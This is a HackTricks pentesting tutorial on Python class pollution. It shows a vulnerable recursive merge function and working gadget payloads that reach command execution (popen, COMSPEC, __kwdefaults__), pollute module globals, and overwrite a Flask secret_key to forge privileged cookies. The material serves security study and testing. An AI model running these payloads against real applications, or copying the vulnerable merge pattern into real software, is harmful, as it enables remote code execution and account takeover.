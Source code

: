 # Class Pollution (Python's Prototype Pollution)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Basic Example

Check how is possible to pollute classes of objects with strings:

```python
class Company: pass
class Developer(Company): pass
class Entity(Developer): pass

c = Company()
d = Developer()
e = Entity()

print(c) #<__main__.Company object at 0x1043a72b0>
print(d) #<__main__.Developer object at 0x1041d2b80>
print(e) #<__main__.Entity object at 0x1041d2730>

e.__class__.__qualname__ = 'Polluted_Entity'

print(e) #<__main__.Polluted_Entity object at 0x1041d2730>

e.__class__.__base__.__qualname__ = 'Polluted_Developer'
e.__class__.__base__.__base__.__qualname__ = 'Polluted_Company'

print(d) #<__main__.Polluted_Developer object at 0x1041d2b80>
print(c) #<__main__.Polluted_Company object at 0x1043a72b0>
```

## Basic Vulnerability Example

```python
# Initial state
class Employee: pass
emp = Employee()
print(vars(emp)) #{}

# Vulenrable function
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


USER_INPUT = {
    "name":"Ahemd",
    "age": 23,
    "manager":{
        "name":"Sarah"
    }
}

merge(USER_INPUT, emp)
print(vars(emp)) #{'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
```

## Gadget Examples

<details>

<summary>Creating class property default value to RCE (subprocess)</summary>

```python
from os import popen
class Employee: pass # Creating an empty class
class HR(Employee): pass # Class inherits from Employee class
class Recruiter(HR): pass # Class inherits from HR class

class SystemAdmin(Employee): # Class inherits from Employee class
    def execute_command(self):
        command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
        return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

USER_INPUT = {
    "__class__":{
        "__base__":{
            "__base__":{
                "custom_command": "whoami"
            }
        }
    }
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
#> [!] Executing: "echo Hello there", output: "Hello there"

# Create default value for Employee.custom_command
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
#> [!] Executing: "whoami", output: "abdulrah33m"
```

</details>

<details>

<summary>Polluting other classes and global vars through <code>globals</code></summary>

```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```

</details>

<details>

<summary>Arbitrary subprocess execution</summary>

```python
import subprocess, json

class Employee:
    def __init__(self):
        pass

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# Overwrite env var "COMSPEC" to execute a calc
USER_INPUT = json.loads('{"__init__":{"__globals__":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"}}}}}}') # attacker-controlled value

merge(USER_INPUT, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up
```

</details>

<details>

<summary>Overwritting <strong><code>__kwdefaults__</code></strong></summary>

**`__kwdefaults__`** is a special attribute of all functions, based on Python [documentation](https://docs.python.org/3/library/inspect.html), it is a “mapping of any default values for **keyword-only** parameters”. Polluting this attribute allows us to control the default values of keyword-only parameters of a function, these are the function’s parameters that come after \* or \*args.

```python
from os import system
import json

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class Employee:
    def __init__(self):
        pass

def execute(*, command='whoami'):
    print(f'Executing {command}')
    system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami
#> user

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
#> Polluted
```

</details>

<details>

<summary>Overwriting Flask secret across files</summary>

So, if you can do a class pollution over an object defined in the main python file of the web but **whose class is defined in a different file** than the main one. Because in order to access \_\_globals\_\_ in the previous payloads you need to access the class of the object or methods of the class, you will be able to **access the globals in that file, but not in the main one**. \
Therefore, you **won't be able to access the Flask app global object** that defined the **secret key** in the main page:

```python
app = Flask(__name__, template_folder='templates')
app.secret_key = '(:secret:)'
```

In this scenario you need a gadget to traverse files to get to the main one to **access the global object `app.secret_key`** to change the Flask secret key and be able to [**escalate privileges** knowing this key](../../network-services-pentesting/pentesting-web/flask.md#flask-unsign).

A payload like this one:

{% code overflow="wrap" %}
```python
__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
{% endcode %}

Use this payload to **change `app.secret_key`** (the name in your app might be different) to be able to sign new and more privileges flask cookies.

</details>

## References

* [https://blog.abdulrah33m.com/prototype-pollution-in-python/](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
